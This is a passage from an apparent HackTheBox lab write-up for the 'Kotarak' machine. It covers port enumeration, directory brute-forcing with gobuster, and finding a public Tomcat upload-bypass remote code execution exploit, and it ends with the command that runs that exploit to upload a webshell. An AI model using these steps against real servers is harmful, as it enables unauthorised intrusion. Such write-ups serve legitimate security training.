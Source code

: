 At first glance, it looks like there's a lot going on here, the only usual ports we might see are the ssh port (22) and the alternative http port (8080).
Many of the ports are filtered, so lets first enumerate the 'open' ports and services.

If the ssh service is not horribly out of date, or known to be vulnerable, its better to move on.
The 'http' port is often the first to test (if open) so I'll start with port 8080.

I add kotarak.htb to my /etc/hosts file, a customary measure that can sometimes reveal pages otherwise hidden when browsed to with just an ip address.

Browsing to http://kotarak.htb:8080 we immediately get a 'server status 404' the server has no page to display here...
Perhaps forced-browsing with `gobuster` will identify some directories to check out.

`gobuster dir -u http://10.10.10.55:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php,.txt,.sh`


While I'm waiting for gobuster to finish its search, I use `searchsploit` to look for public exploits for the `Tomcat` service.

![tomcat-searchsploit](/assets/img/kotarak/kotarak-tomcat-searchsploit.png)
 
It looks like there's a python exploit available that may work for the version running on the target.

I copy it to my pwd (present working directory) and have a read.

`searchsploit -m 42966`

```

  Exploit: Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)
      URL: https://www.exploit-db.com/exploits/42966
     Path: /usr/share/exploitdb/exploits/jsp/webapps/42966.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/HTB/retired/kotarak/42966.py

```

It seems that we can generate a command webshell and upload it with the exploit with the following command:

`./42966.py -u http://10.10.10.55:8080 -p pwn`
 

<hr width="250" size="6">
